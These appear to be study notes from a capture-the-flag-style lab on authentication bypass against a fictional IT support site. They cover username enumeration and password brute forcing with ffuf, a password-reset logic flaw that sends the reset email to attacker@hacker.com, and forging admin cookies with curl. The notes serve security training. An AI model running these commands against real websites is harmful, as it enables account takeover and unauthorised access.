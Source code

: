 # Authentication Bypass
## Username Enumeration
* Creating a list of valid usernames is a helpful exercise to complete when trying to find authentication vulnerabilities.
* Website error messages are a great resource for collating this information to build a list of valid usernames. 

> 1. Go to the fake IT Support website’s signup page.
> 2. Use the form to create a new user account.
> 3. Enter the username 'admin' and fill in the other form fields with fake information.
> 4. This produces an 'An account with this username already exists' error.
> 5. Use the existence of the error message to produce a list of valid usernames already signed up on the system by using ffuf:
> 6. `ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"`
>     * `-w` selects the wordlist file.
>     * `-X` specifies the request method.
>       * This will be a `GET` request by default, but it is a `POST` request in this example.
>     * `-d` specifies the data that will be sent (`username`, `email`, `password`, and `cpassword`).
>        * `username` is set to value of `FUZZ`.
>          * `FUZZ` keyword signifies where the contents from the wordlist will be inserted in the request.
>     * `-H` adds additional headers to the request.
>       * `Content-Type` is set so the web server knows that form data is being sent.
>     * `-u` specifies the URL that requests are being made to.
>     * `-mr` is the text on the page to validate that a valid username has been found.

## Brute Force
* Automated process that tries a list of commonly used passwords against either a single username or a list of usernames.

> 1.Brute force the fake IT Support website’s signup page.
> 2. Run `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200`
> * Make sure the terminal is in the same directory as the `valid_usernames.txt` file when running the `ffuf` command.
>  * `FUZZ` keyword now needs to specify custom keywords because multiple wordlists are being used.
>    * `W1` for the list of valid usernames.
>    * `W2` for the list of passwords to try.
> * `-w` specifies the multiple wordlists but are separated with a comma.
> * `-fc` used to check for an HTTP status code other than `200` (a positive match).

## Logic Flaws
* Occurs when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker.
* These can exist in any area of a website including authentication processes.

> 1. Examine the 'Reset Password' function of the fake IT Support website.
> 2. This has a form asking for the email address associated with the account on which to perform the password reset.
> 3. An 'Account not found from supplied email address' error message is received if an invalid email is entered.
>    * Use the valid email address `robert@acmeitsupport.thm`.
> 5. The second stage of the reset form asks for the username associated with the login email address.
>    * Enter `robert` as the username.
> 7. Press the 'Check Username' button.
> 8. Message confirms that a password reset email has been sent to `robert@acmeitsupport.thm`.
>    * Username is submitted in a `POST` field to the web server and mail address is sent in the query string request as a `GET` field.
> 11. Manually make a request to the web server: `curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'`
>     * `-H` adds an additional header to the request.
>     * `Content-Type` set to `application/x-www-form-urlencoded`.
>        * This lets the web server know that form data is being sent so it properly understands the request.
> 16. The user account is retrieved using the query string in this application.
> 17. However, the password reset email is sent using the data found in the `$_REQUEST` PHP variable.
>     * `$_REQUEST` is an array that contains data received from the query string and `POST` data.
>     * Application logic for `$_REQUEST` favours `POST` data fields over the query string if the same key name is used for both the query string and 'POST' data
>     * Because of this where the password reset email gets delivered to can be controlled if another `email` parameter is added to the 'POST' form:
>       * `curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`

> 1. Create another account in the customer section.
>    * Doing so provides a unique email address that can be used to create support tickets.
> 3. The email address is in the format of `{username}@customer.acmeitsupport.thm`.
> 4. Rerun the curl Request but with the new `@acmeitsupport.thm` in the `email` field:
> 5. `curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'`
> 6. This will create a ticket on the new account which contains a link to log in as Robert.

## Cookie Tampering
* Examining and editing cookies set by the web server during an online session can have multiple outcomes:
  * Unauthenticated access.
  * Access to another user's account.
  * Elevated privileges.
### Plain Text
* The contents of some cookies can be in plain text, and it is obvious what they do.
* Sample cookies set after a successful login may be `Set-Cookie: logged_in=true; Max-Age=3600; Path=/` and `Set-Cookie: admin=false; Max-Age=3600; Path=/`.
  * One cookie (`logged_in`) appears to control whether the user is currently logged in or not.
  * The other (`admin`) controls whether the visitor has admin privileges.
  * The changing of privileges should be possible if the contents of the cookies were to be changed and a new Request made.

> 1. Request the target page: `curl http://MACHINE_IP/cookie-test`.
>    * This returns a 'Not Logged In' message.
> 3. Send another Request with the `logged_in` cookie set to `true` and the `admin` cookie set to `false`: `curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test`.
>    * This returns a 'Logged In As A User' message.
> 6. Send another Request setting both the `logged_in` and `admin` cookie to `true`: `curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test`.
>    * This returns a 'Logged In As An Admin' message.

### Hashing
* Cookie values can look like a long string of random characters (hashes).
* These are an irreversible representation of the original text.
  
| Original String | Hash Method | Output
| --- | --- | ---
| 1 | md5 | c4ca4238a0b923820dcc509a6f75849b
| 1 | sha-256 | 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b
| 1 | sha-512 | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a
| 1 | sha1 | 356a192b7913b04c54574d18c28d46e6395428ab

* Hash output from the same input string can significantly differ depending on the hash method in use.
* Same output is produced every time even though the hash is irreversible.
  * This is helpful for testers as services such as [https://crackstation.net/(]https://crackstation.net/) keep databases of billions of hashes and their original strings.

### Encoding
* Similar to hashing in that it creates a seemingly random string of text although encoding is **reversible**.
* Allows conversion of binary data into human readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.
* **Base32** converts binary data to the characters `A-Z` and `2-7`.
* **Base64** converts using the characters `a-z`, `A-Z`, `0-9`, `+`, `/` and `=`for padding.

> * Example of data that is set by a web server upon logging in: `Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`
> * Decoding the base64 string results in a value of `{"id":1,"admin": false}`.
>   * This can then be encoded back to base64 after setting the admin value to true to provide admin access.
